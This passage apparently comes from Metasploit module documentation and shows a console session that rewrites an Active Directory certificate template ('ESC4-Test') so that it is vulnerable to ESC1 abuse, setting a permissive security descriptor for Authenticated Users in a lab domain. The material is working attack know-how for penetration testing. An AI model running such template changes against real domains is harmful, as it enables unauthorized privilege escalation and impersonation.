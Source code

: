 ### Updating A Certificate Template

In this scenario, the operator uses the module to update and reconfigure the `ESC4-Test` certificate template to make it
vulnerable to ESC1 (the default template settings). This process first makes a backup of the certificate data that can
be used later. The local certificate template data can be modified to set a custom security descriptor.

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > use auxiliary/admin/ldap/ad_cs_cert_template 
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set USERNAME aliddle
USERNAME => aliddle
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set PASSWORD Password1!
PASSWORD => Password1!
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set CERT_TEMPLATE ESC4-Test
CERT_TEMPLATE => ESC4-Test
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set ACTION UPDATE 
ACTION => UPDATE
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set VERBOSE true 
VERBOSE => true
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > run
[*] Running module against 192.168.159.10

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 192.168.159.10:389 Getting root DSE
[+] 192.168.159.10:389 Discovered base DN: DC=msflab,DC=local
[+] Read certificate template data for: CN=ESC4-Test,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=msflab,DC=local
[*] Certificate template data written to: /home/smcintyre/.msf4/loot/20230505083802_default_192.168.159.10_windows.ad.cs.te_593597.json
[*] Parsing SDDL text: D:PAI(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;AU)
[+] The operation completed successfully!
[*] Auxiliary module execution completed
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > 
```

[certipy]: https://github.com/ly4k/Certipy
[sddl]: https://learn.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-definition-language
